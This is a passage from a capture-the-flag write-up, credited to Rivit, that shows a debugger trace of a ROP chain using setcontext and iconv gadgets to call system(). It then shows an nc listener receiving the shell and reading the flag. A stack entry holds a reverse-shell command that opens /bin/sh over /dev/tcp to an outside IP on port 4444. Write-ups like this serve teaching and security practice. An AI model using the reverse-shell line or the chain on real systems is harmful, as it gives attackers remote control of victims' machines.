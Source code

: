 ```c
   0x7f87a7523f6d <setcontext+125>    xor    eax, eax
 ► 0x7f87a7523f6f <setcontext+127>    ret                                  <0x7f87a750a766; iconv+198>
    ↓
   0x7f87a750a766 <iconv+198>         ret    
    ↓
   0x7f87a750a766 <iconv+198>         ret    
    ↓
   0x7f87a750a765 <iconv+197>         pop    rdi
   0x7f87a750a766 <iconv+198>         ret    
    ↓
   0x7f87a752f3a0 <system>            test   rdi, rdi
──────────────────────────────────────────────────────[ STACK ]──────────────────────────────────────────────────────
00:0000│ rsp                             0x7f87995ce140 —▸ 0x7f87a750a766 (iconv+198) ◂— ret 
01:0008│ rbx rcx rdx rdi rsi r14 r15 rbp 0x7f87995ce148 —▸ 0x7f87a750a766 (iconv+198) ◂— ret 
02:0010│+008                             0x7f87995ce150 —▸ 0x7f87a750a765 (iconv+197) ◂— pop rdi
03:0018│+010                             0x7f87995ce158 —▸ 0x7f87995be068 ◂— '/bin/bash -c "/bin/sh -i >& /dev/tcp/143.42.7.235/4444 0>&1"   '
04:0020│+018                             0x7f87995ce160 —▸ 0x7f87a752f3a0 (system) ◂— test rdi, rdi
05:0028│+020                             0x7f87995ce168 ◂— 0xaaaaaaaaaaaaaaaa
... ↓                                    2 skipped
```

Resume code execution and observe a connection to our machine:

```c
\root@localhost:~# nc -lvp 4444
Listening on 0.0.0.0 4444
Connection received on XXXXX.dynamic.chello.pl 49276
/bin/sh: 0: can't access tty; job control turned off
$ /readflag
rwctf{2db7c906-ca64-4348-bd2a-97ae482cef47}
```

Final exploit code can be found [here](./solve.py)

Writeup author: [Rivit](https://github.com/rivit98)
